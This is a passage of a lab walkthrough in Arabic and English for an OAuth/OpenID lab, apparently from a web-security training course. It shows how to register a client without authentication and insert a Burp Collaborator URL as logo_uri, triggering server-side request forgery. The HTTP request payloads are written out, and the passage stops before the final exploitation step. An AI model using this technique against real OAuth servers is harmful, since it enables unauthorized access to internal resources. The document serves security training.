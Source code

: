 ## **SSRF via OpenID dynamic client registration**

1-
انتقل إلى رابط ملف التكوين الخاص بخدمة OAuth:

```
https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration

```

Notice that the client registration endpoint is located at `/reg`

2-

في

**Burp Repeater**

، قم بإنشاء طلب

**POST**

لتسجيل تطبيق عميل جديد مع خدمة OAuth. يمكنك تضمين قائمة من عناوين URI المسموح بها:

```jsx
POST /reg HTTP/1.1
Host: [oauth-YOUR-OAUTH-SERVER.oauth-server.net](http://oauth-your-oauth-server.oauth-server.net/)
Content-Type: application/json
{
"redirect_uris" : [
"[https://example.com](https://example.com/)"
]
}
```

- أرسل الطلب ولاحظ أنك قد سجلت التطبيق الجديد بنجاح دون الحاجة إلى أي مصادقة.
- ستتلقى استجابة تحتوي على **client_id** جديد لتطبيقك المسجل.
**استغلال خاصية الـ logo_uri**:

انتقل إلى طلب `GET /client/CLIENT-ID/logo`

لذي يتم فيه استرجاع شعار التطبيق. لاحظ أن التطبيقات المسجلة يمكنها تعيين عنوان URL لشعارها باستخدام الخاصية `logo_uri`.

**ضمين Payload عبر Burp Collaborator**:

- قم بتعديل طلب **POST /reg** السابق لتضمين خاصية `logo_uri`، واضغط بزر الماوس الأيمن واختر **Insert Collaborator payload** لإدراج رابط Burp Collaborator:

```jsx
POST /reg HTTP/1.1
Host: [oauth-YOUR-OAUTH-SERVER.oauth-server.net](http://oauth-your-oauth-server.oauth-server.net/)
Content-Type: application/json
{
"redirect_uris" : [
"[https://example.com](https://example.com/)"
],
"logo_uri" : "[https://BURP-COLLABORATOR-SUBDOMAIN](https://burp-collaborator-subdomain/)"
}
```
